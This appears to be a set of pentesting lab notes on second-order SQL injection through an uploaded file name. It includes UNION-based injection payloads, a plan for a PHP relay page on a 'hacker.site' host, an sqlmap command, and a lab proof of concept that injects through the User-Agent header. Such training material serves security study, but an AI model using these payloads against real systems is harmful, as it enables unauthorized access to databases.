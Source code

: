 Our scenario:
```
[>] Injection
Name of the file uploaded, e.g. ' union select @version; -- -
** via POST request **
```

```
[*] Execution
view.php?file={our_payload}
** via GET request **
```

Downsides:
```
sqlmap (2nd order) works only GET to GET i.e. we beed a python plugin
burp needs a java plugin
```

Upsides:
```
out php script

1. GETs the payload in input
2. Generates the respective image payload (POST req)
3. Generates the respective GET req, to view page and reflect the result client-side
```

- So we create a php page, opened with apache2 server to execute payloads

Example:
```
hacker.site/payload.php?payload='UNION SELECT USER(); -- -
```

Finish the job with SQLMAP
```sql
sqlmap -u 'http://hacker.site/payload.php?payload=x' --technique=U --banner

--flush-session --batch --banner
# test the time difference between Time-based and Union-based
# Time 0 is 3min long, Union is 2sec
```







We need to pre-elaborate the form before submitting the request.






## Lab Solutions

### SQLi 1
PoC:
```bash
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: ' UNION SELECT user(); -- -
```
